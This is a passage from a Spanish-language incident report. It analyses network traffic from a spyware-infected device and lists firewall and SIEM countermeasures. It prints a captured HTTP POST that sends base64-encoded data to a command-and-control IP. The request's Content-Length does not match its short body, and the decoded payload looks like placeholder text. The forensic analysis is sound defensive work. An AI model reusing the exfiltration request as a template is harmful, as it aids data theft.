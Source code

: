 El análisis del tráfico de red realizado durante la investigación del incidente reveló varias anomalías que sugieren la presencia de comunicaciones maliciosas entre el dispositivo comprometido y un servidor de comando y control (C2). A continuación se detallan los principales hallazgos:

- **Comunicación No Autorizada:** Se detectaron múltiples solicitudes HTTP salientes desde el dispositivo comprometido hacia una IP no categorizada ubicada en Europa del Este (IP: 178.62.240.1). Estas solicitudes comenzaron inmediatamente después de la instalación del spyware, lo que indica que el dispositivo estaba enviando datos exfiltrados a un servidor externo.

- **Análisis de Paquetes:** El análisis de los paquetes capturados mostró que los datos enviados incluían información codificada en base64, lo que dificultaba la identificación inmediata del contenido sin una decodificación adecuada.

- **Volumen de Tráfico:** Durante un período de 24 horas, el dispositivo comprometido generó un volumen anómalo de tráfico de 200 MB, significativamente superior al promedio diario de 50 MB para un usuario típico. Este aumento en el tráfico fue un indicador clave de la actividad maliciosa.

- **Comportamiento del Malware:** El análisis detallado del tráfico sugirió que el malware estaba configurado para enviar pulsaciones de teclas, capturas de pantalla y archivos locales a intervalos regulares de 10 minutos. 

##### Ejemplo de Solicitud HTTP

A continuación se presenta un ejemplo de una solicitud HTTP maliciosa capturada durante el análisis:

```http
POST /upload HTTP/1.1
Host: 178.62.240.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 349

data=cmVzdWx0cz1zdWNjZXNzJmZpbGU9ZGV0YWlscy5leGUmY29udGVudD1IZWxsbyUyQw==
```

- **Método:** `POST` utilizado para enviar datos al servidor C2.
- **Destino:** IP externa (178.62.240.1) fuera de las redes corporativas autorizadas.
- **Contenido Codificado:** Los datos en el campo `data` estaban codificados en base64, lo que tras la decodificación reveló contenido sensible relacionado con documentos laborales.

##### Respuesta del Servidor

El servidor respondió con un código HTTP `200 OK`, confirmando la recepción exitosa de los datos. Este intercambio fue repetido numerosas veces durante el período analizado, lo que subraya la naturaleza persistente del malware en el dispositivo afectado.

##### Medidas Implementadas

- **Bloqueo de IP:** Se procedió al bloqueo inmediato de la IP 178.62.

240.1 en el firewall perimetral para interrumpir la comunicación del malware.
- **Monitoreo Adicional:** Se implementaron reglas adicionales en el SIEM (Splunk Enterprise Security) para detectar y alertar sobre patrones similares de tráfico en otros dispositivos.

## 4. Impacto Detallado del Incidente
